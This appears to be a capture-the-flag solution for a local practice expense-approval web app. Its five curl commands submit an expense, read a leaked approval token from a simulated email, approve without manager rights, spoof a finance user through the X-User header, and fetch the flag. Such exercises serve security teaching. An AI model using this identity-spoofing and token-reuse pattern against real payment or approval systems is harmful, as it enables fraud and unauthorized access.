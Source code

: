 # 1) Submit an expense as alice (X-User: 1)

```bash
curl -i -H "X-User: 1" -H "Content-Type: application/json" \
  -d '{"amount":100,"description":"expense"}' \
  http://localhost:3000/expenses
```

# 2) Read the simulated email (get approval token)

```bash
curl -i -H "X-User: 1" http://localhost:3000/emails/last
# → Look for "body": ".../approve?token=<TOKEN>" and copy the token value.
```

# 3) Approve using the token (server does not require you to be the manager)

# Replace <TOKEN> with the copied token

```bash
curl -i "http://localhost:3000/approve?token=<TOKEN>"
```

# 4) Mark the approved expense as paid (act as finance X-User: 3)

# Replace 4 with the actual approved expense id if different

```bash
curl -i -X POST -H "X-User: 3" http://localhost:3000/pay/4
```

# 5) Fetch the flag (any user can read once paid)

```bash
curl -i -H "X-User: 1" http://localhost:3000/flag
```
